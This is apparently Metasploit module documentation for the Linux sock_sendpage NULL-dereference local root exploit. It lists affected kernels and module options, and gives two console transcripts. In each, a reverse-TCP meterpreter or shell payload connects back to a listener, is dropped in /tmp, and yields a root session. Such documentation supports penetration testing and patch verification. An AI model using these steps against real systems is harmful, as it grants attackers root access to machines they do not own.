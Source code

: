 ## Description

  The Linux kernel failed to properly initialize some entries in the
  `proto_ops` struct for several protocols, leading to `NULL` being
  dereferenced and used as a function pointer. By using `mmap(2)` to map
  page 0, an attacker can execute arbitrary code in the context of the
  kernel.


## Vulnerable Application

  Several public exploits exist for this vulnerability, including
  spender's `wunderbar_emporium` and rcvalle's ppc port, `sock_sendpage.c`.

  All Linux 2.4/2.6 versions since May 2001 are believed to be affected:

  * 2.4.4 up to and including 2.4.37.4
  * 2.6.0 up to and including 2.6.30.4

  This module has been tested successfully on:

  * CentOS 5.0 (i386) with kernel version 2.6.18-8.1.1.tl5
  * Debian 3.1r8 Sarge (i686) with kernel version 2.4.27-3-386


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/sock_sendpage`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **DEBUG_EXPLOIT**

  Enable exploit debug messages. (default: `false`)


## Scenarios

  **CentOS 5.0 (i386) with kernel version 2.6.18-8.1.1.tl5**

  ```
  msf > use exploit/linux/local/sock_sendpage 
  msf exploit(linux/local/sock_sendpage) > set session 1
  session => 1
  msf exploit(linux/local/sock_sendpage) > set verbose true
  verbose => true
  msf exploit(linux/local/sock_sendpage) > set payload linux/x86/meterpreter/reverse_tcp
  payload => linux/x86/meterpreter/reverse_tcp
  msf exploit(linux/local/sock_sendpage) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] Kernel version 2.6.18 appears to be vulnerable
  [+] System architecture i686 is supported
  [+] vm.mmap_min_addr is not set
  [*] Writing '/tmp/.MCpzrCREnMXU' (3509 bytes) ...
  [*] Max line length is 65537
  [*] Writing 3509 bytes in 1 chunks of 10560 bytes (octal-encoded), using printf
  [*] Executing payload...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (857352 bytes) to 172.16.191.159
  [*] Meterpreter session 34 opened (172.16.191.188:4444 -> 172.16.191.159:37663) at 2018-04-10 06:50:13 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.159
  OS           : CentOS 5 (Linux 2.6.18-8.1.1.tl5)
  Architecture : i686
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

  **Debian 3.1r8 Sarge (i686) with kernel version 2.4.27-3-386**

  ```
  msf > use exploit/linux/local/sock_sendpage 
  msf exploit(linux/local/sock_sendpage) > set payload linux/x86/shell/reverse_tcp
  payload => linux/x86/shell/reverse_tcp
  msf exploit(linux/local/sock_sendpage) > set session 1
  session => 1
  msf exploit(linux/local/sock_sendpage) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] Kernel version 2.4.27 appears to be vulnerable
  [+] System architecture i686 is supported
  [+] vm.mmap_min_addr is not set
  [*] Writing '/tmp/.69p3FeagB' (3509 bytes) ...
  [*] Max line length is 65537
  [*] Writing 3509 bytes in 1 chunks of 10560 bytes (octal-encoded), using printf
  [*] Executing payload...
  [*] Sending stage (36 bytes) to 172.16.191.227
  [*] Command shell session 35 opened (172.16.191.188:4444 -> 172.16.191.227:32836) at 2018-04-10 06:59:08 -0400
  [!] Tried to delete /tmp/.69p3FeagB, unknown result

  3356110123
  lfvaliLFShnAfRQkCHUXFtuyGXKylJSN
  TJloQpOJsrsnQSfZpNAjWcbqNuHanLeI
  LeKIAUjwBMRhxjJjVvvrdvwErYZnxPYr
  id
  uid=0(root) gid=0(root) groups=100(users)
  uname -a
  Linux sarge 2.4.27-3-386 #1 Wed Dec 6 00:38:33 UTC 2006 i686 GNU/Linux
  ```

